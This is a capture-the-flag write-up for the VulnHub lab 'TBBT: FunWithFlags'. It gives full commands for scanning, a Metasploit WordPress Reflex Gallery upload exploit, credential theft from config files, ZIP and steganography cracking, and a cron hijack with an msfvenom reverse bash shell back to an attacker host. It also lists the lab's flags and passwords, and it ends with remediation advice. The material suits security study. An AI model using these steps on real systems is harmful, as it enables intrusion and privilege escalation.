





# TBBT: FunWithFlags — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.105 (DHCP disabled) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | 7 (Sheldon, Amy, Penny, Leonard, Bernadette, Raj, Howard) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/tbbt-funwithflags,437/) |

## Attack Summary

`nmap → FTP anon + WordPress Reflex Gallery MSF → meterpreter → writable cron → root shell → 7 flags via web/DB/steg/FTP chain`

## Methodology

1. Network discovery and port scan
2. Directory brute-force → WordPress enumeration
3. Reflex Gallery plugin exploit (Metasploit)
4. Flag collection: home dirs, DB configs, wp-config, cron privesc
5. FTP anonymous → ZIP crack → steganography
6. Root via cron job replacement

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.105
```

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP), 1337 (custom — Flag 1 Sheldon).

**Flag 1 — Sheldon:** `FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}`



---

## Step 2: Web Enumeration

```bash
dirb http://192.168.1.105
```

Finds `/music/wordpress/`. Then enumerate the WordPress installation:

```bash
wpscan --url http://192.168.1.105/music/wordpress/
```

Vulnerable plugin: **Reflex Gallery** (arbitrary file upload).



---

## Step 3: Exploit WordPress Reflex Gallery (Metasploit)

```bash
msfconsole
use exploit/unix/webapp/wp_reflex_file_upload
set RHOSTS 192.168.1.105
set TARGETURI /music/wordpress
exploit
```

Lands a Meterpreter session as `www-data`.

```bash
cd /home
ls
# amy  bernadette  howard  leonard  penny  raj  sheldon
```



---

## Step 4: Collect Flags from Home Directories

**Flag 2 — Amy:** Binary file with hardcoded password.

```bash
cd /home/amy
ls
# notes.txt  secretdiary
strings secretdiary
# Password: P@SSw0rd123Sh3ld0n
# Flag: FLAG-amy{60263777358690b90e8dbe8fea6943c9}
```

**Flag 3 — Penny:**

```bash
cd /home/penny
cat .FLAG.penny.txt | base64 -d
# FLAG-penny{dace52bdb2a0b3f899dfb3423a992b25}
```

**Flag 5 — Bernadette:** Credentials from `db_config.php`.

```bash
cd /var/www/html/private
cat db_config.php
# user: bigpharmacorp / password: weareevil
mysql -u bigpharmacorp -pweareevil
# use bigpharmacorp; show tables; select * from users;
# FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}
```

**Flag 6 — Raj:** WordPress database credentials.

```bash
cat /var/www/html/music/wordpress/wp-config.php
# user: footprintsonthemoon / password: footprintsonthemoon1337
mysql -u footprintsonthemoon -pfootprintsonthemoon1337
# use footprintsonthemoon; show tables; select * from wp_posts;
# FLAG-raz{40d17a74e28a62eac2df19e206f0987c}
```

---

## Step 5: Privilege Escalation via Writable Cron Script (Flag 4 — Leonard)

A cron job running as root executes `/home/leonard/thermostat_set_temp.sh` every minute.

```bash
cat /etc/crontab
# * * * * * root /home/leonard/thermostat_set_temp.sh
```

Replace the script with a reverse bash payload:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.111 LPORT=1234 R > /tmp/shell.sh
# On target (via meterpreter upload):
upload /tmp/shell.sh /home/leonard/thermostat_set_temp.sh
# Start listener:
nc -lvp 1234
# Wait ~1 minute for cron to fire
id
# uid=0(root)
cat /root/Flag-leonard.txt
# FLAG-leonard{17fc95224b65286941c54747704acd3e}
```



---

## Step 6: FTP Anonymous + Steganography (Flag 7 — Howard)

```bash
ftp 192.168.1.105
# anonymous login
cd pub/howard
get super_secret_nasa_stuff_here.zip
bye
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt super_secret_nasa_stuff_here.zip
# Password: astronaut
unzip super_secret_nasa_stuff_here.zip
stegcracker marsroversketch.jpg /usr/share/wordlists/rockyou.txt
# Password: iloveyoumom
cat marsroversketch.jpg.out
# FLAG-howard{...}
```



---

## Flags Summary

| Character | Flag |
|-----------|------|
| Sheldon | `FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}` |
| Amy | `FLAG-amy{60263777358690b90e8dbe8fea6943c9}` |
| Penny | `FLAG-penny{dace52bdb2a0b3f899dfb3423a992b25}` |
| Leonard | `FLAG-leonard{17fc95224b65286941c54747704acd3e}` |
| Bernadette | `FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}` |
| Raj | `FLAG-raz{40d17a74e28a62eac2df19e206f0987c}` |
| Howard | In image (steg output) |

---

## Lessons Learned

1. **Outdated WordPress plugins** (Reflex Gallery) allow unauthenticated file upload → RCE
2. **Hardcoded credentials in binaries** are trivially recoverable with `strings`
3. **World-writable scripts executed by root cron** are a direct privesc path
4. **Credentials in config files** (wp-config.php, db_config.php) persist long after dev
5. **Anonymous FTP + steganography** as flag hiding is common in CTFs — always check both

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Vulnerable WordPress plugin | Update Reflex Gallery or remove it; audit all active plugins |
| Cron script writable by www-data | chmod 700; owned by root only |
| Hardcoded DB credentials | Use environment variables or secrets management |
| Anonymous FTP enabled | Disable anonymous FTP unless explicitly required |
| wp-config.php accessible | Move above webroot; restrict file permissions |
